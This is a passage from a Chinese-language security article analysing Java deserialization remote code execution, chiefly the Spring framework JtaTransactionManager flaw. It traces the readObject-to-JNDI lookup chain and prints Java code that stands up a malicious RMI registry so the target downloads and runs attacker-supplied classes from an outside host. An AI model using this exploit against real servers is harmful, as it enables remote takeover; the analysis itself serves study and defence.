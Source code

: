 运行代码，并攻击Jboss可以得到如下执行结果：

![](http://drops.javaweb.org/uploads/images/feafe8db4eac9fd5353210db912bcb78190bb10b.jpg)

0x04 Spring framework远程命令执行分析
=============================

* * *

这个漏洞涉及JNDI和RMI服务，比较有趣。代码细节分析请参考资料中的第三个，分析的非常好，就不班门弄斧了。这里简单理清这个攻击的步骤。

与`Apache Commons Collections`这个库的反序列化利用类似，我们需要将spring框架中的lib包，包含在`CLASSPATH`中。这个要求比较苛刻，需要的包也比较多：

![](http://drops.javaweb.org/uploads/images/7e63c942ebce6a232a872af15d18fc34577292f2.jpg)

翻译下[原文](http://zerothoughts.tumblr.com/post/137831000514/spring-framework-deserialization-rce)的命令执行代码链：

`spring-tx.jar`中包含`org.springframework.transaction.jta.JtaTransactionManager`类，这个类存在JNDI的反序列化问题。  
它的readObject() 方法执行中含有这样的一个路径：

```
initUserTransactionAndTransactionManager()->
lookupUserTransaction()->
JndiTemplate.lookup()->
InitialContext.lookup(userTransactionName)  

```

`InitialContext.Lookup()`会调用`userTransactionName`属性，这个属性是我们可以控制的。  
查阅JNDI使用，可以发现`userTransactionName`属性可以是一个外网的RMI路径，比如:`rmi://10.10.10.1:1099/Object`。

于是我们可以**自己搭建一个RMI服务器**，让目标服务器来访问下载执行准备好的任意java代码。  
服务端搭建在Ubuntu虚拟机上，简单地建立一个socket进行数据传输并反序列化解析。代码自行查阅github~~

简要画的原理如下：

![](http://drops.javaweb.org/uploads/images/2a88587b863827830a48d109d2a2421a1526cc92.jpg)

Client端即为攻击方，它向目标服务器发送`JtaTransactionManager`序列化对象后，会触发server端进行访问Client端(即：这时的RMI服务器端)中的RMI服务，去下载任意java对象进行执行。关键代码为：

```
//创建RMI服务
Registry registry = LocateRegistry.createRegistry(1099);
Reference reference = new javax.naming.Reference("client.ExportObject","client.ExportObject","http://"+ localAddress +"/");
//访问rmi服务时，会转到该url地址中下载client.ExportObject类，并新建对象。

ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
registry.bind("Object", referenceWrapper);

String jndiAddress = "rmi://"+localAddress+":1099/Object";
//通过jndi访问rmi服务

org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
object.setUserTransactionName(jndiAddress);

```
